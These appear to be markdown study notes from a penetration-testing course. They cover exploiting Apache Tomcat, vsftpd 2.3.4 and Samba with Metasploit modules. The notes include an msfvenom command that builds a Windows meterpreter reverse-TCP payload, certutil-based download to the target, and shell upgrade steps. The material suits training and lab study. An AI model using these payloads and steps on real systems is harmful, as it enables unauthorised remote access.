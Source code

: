 #### Apache Tomcat 
+ Known as Tomcat server, popular, free and open source Java servlet web server
+ Build and host dynamic websites and web applications based on the Java software platform 
+ Utilizes the HTTP protocol 
+ Runs on port 8080 by default
+ Apache Tomcat is different then Apache because it is dynamic and in java 
	+ V8.5.19 is vulnerable to remote code execution via `jsp`
+ MSF has an exploit module 

#### Exploiting Apache Tomcat 

After verifying Apache Tomcat is running:
+ Will use remote code execution with: `exploit/multi/http/tomcat_jsp_upload_bypass`
	+ can set the payload as `java/jsp_shell_bind_tcp` and `set SHELL cmd`
+ To upgrade to meterpreter, will generate a windows meterpreter session with msfvenom:`msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > meterpreter.exe`
	+ Will transfer that over to the target and download the executable 
	+ `certutil` will allow downloads from a webserver
+ Will now set up `mutli/handler`, and the run the exe

## Linux Exploitation 

### Exploiting A Vulnerable FTP Server 

#### FTP ####
+ Protocol that uses TCP port 21 and used to facilitate file sharing 
+ Frequently used as a means of transferring files
+ <mark style="background: #ADCCFFA6;">vsftpd</mark> is an FTP sever for Unix-like system including Linux systems and is the default FTP server for Ubuntu, CentOS and Fedora
+ <mark style="background: #ADCCFFA6;">vsftpd</mark> V2.3.4 is a vulnerable to a command execution vulnerability that facilitate a backdoor that was added to the <mark style="background: #ADCCFFA6;">vsftpd</mark> download archive through a supply chain attack 
  + can open up a bash with `/bin/bash -i`
  + Will then use `post/multi/manage/shell_to_meterpreter` to upgrade to meterpreter 

### Exploiting Samba 

#### Samba 
+ SMB is a network and file sharing protocol 
+ SMB uses port 445, originally ran on top of NetBIOS using port 139
+ Samba is the linux implementation of SMB
+ Samba V3.5.0 is vulnerable to remote code execution vulnerability 

#### Exploiting Samba 
+ `exploit/linux/samba/is_known_pipename` is Rank Excellent and will give CLI access 
	+ can open up a bash with `/bin/bash -i`
	+ Will then use `post/multi/manage/shell_to_meterpreter` to upgrade to meterpreter

### Exploiting A Vulnerable SSH Server 
